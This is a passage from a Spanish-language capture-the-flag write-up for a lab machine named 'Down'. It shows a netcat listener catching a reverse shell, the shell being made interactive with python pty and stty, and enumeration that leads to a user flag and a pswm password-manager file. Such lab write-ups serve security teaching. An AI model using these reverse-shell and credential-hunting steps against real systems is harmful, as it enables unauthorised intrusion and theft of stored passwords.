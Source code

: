 ```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.64] from (UNKNOWN) [10.129.180.121] 58614
whoami
www-data
```

Como podemos ver, obtuvimos una reverse shell mediante inyección de parámetros en comandos, vamos a hacer la shell más interactiva:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@down:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@down:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 4444
```

Una vez en segundo plano, ejecutamos el siguiente comando en nuestra máquina atacante:

```bash
$ stty -echo raw;fg
```

Deberíamos estar en la máquina víctima con una shell completamente interactiva.

## ESCALADA DE PRIVILEGIOS

Ahora listemos el contenido del directorio actual:

```bash
www-data@down:/var/www/html$ ls
index.php  logo.png  style.css	user_aeT1xa.txt
```

Vemos la flag de usuario en la raíz del servidor web, cuyo nombre es **user_aeT1xa.txt**, cuyo contenido podríamos haber visto desde el navegador desde un principio si hubiesemos conocido el nombre del archivo ya que se encuentra en la raíz.

Bien, listemos el contenido dentro del directorio de el usuario **aleks**, ya que es el único que ha sido creado manualmente en el sistema:

```bash
www-data@down:/home/aleks$ find . -type f 2>/dev/null 
./.lesshst
./.bashrc
./.sudo_as_admin_successful
./.local/share/pswm/pswm
./.profile
./.bash_logout
```

Vemos un archivo dentro de **.local/share/pswm/**, busquemos que es **pswm**:

![Down]({{ "/assets/images/Down14.png"}})

Parece ser un gestor de contraseñas que se usa desde el CLI, se encripta con una contraseña (clave maestra) que solo debería conocer el dueño de las contraseñas, no obstante, si echamos un vistazo al archivo vemos lo siguiente:
